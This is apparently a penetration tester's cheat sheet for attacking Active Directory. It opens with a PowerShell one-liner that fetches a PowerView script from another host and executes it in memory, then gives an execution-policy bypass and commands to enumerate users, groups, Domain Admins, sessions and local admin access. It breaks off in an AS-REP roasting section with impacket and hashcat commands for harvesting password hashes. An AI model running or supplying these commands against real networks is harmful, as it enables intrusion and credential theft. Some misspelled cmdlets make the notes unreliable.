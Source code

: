 

### Enumeration using PowerView

PowerView.ps1 - https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

Load and Run PowerView.ps1 script using powershell

`IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.1.1/powerview.ps1')`


`powershell -ep bypass`  - bypass the execution policy

`Import-Module .\PowerView.ps1`  - Importing PowerView to memory

`Get-NetDomain`  - Obtaining domain information

`Get-NetUser` - Querying users in the domain

`Get-NetUser | select cn` - Querying users using select statement

`Get-NetGroup | select cn`  - Querying groups in the domain using PowerView

`Get-NetGroup "Sales Department" | select member`  - Enumerating the "Sales Department" group

`Get-NetComputer | select operatingsystem,dnshostname`  - Displaying OS and hostname

`Find-LocalAdminAccess`  - Scanning domain to find local administrative privileges for our user

https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html?highlight=powerview#powerviewsharpview

`Get-DomainController`

`Get-DomianComputer | select sameaccountname, cn, name`

`Get-DomianUser | select name, memberof`  

`Get-DomainGroup | select name, member`

`Get-DomainGroupMember -Identity "Domain Admins"`

`Get-DomainGroupMember -Identity "Domain Admins" -Recurse` 

`Get-NetLoggedon | select UserName` ⇒ get all the users logged on the current machine

`Get-NetSession` ⇒ List of active sessions on the current machine

`Invoke-UserHunter -CheckAccess`  ⇒ checks if domain admin is logged onto any computers and if we have admin access to those computers

## AD Exploitation
---

### AS-REP Roasting

- On Linux -
    
    `impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete` - Using GetNPUsers to perform AS-REP roasting
    
    `hashcat --help | grep -i "Kerberos”`  - Reviewing the correct Hashcat mode
    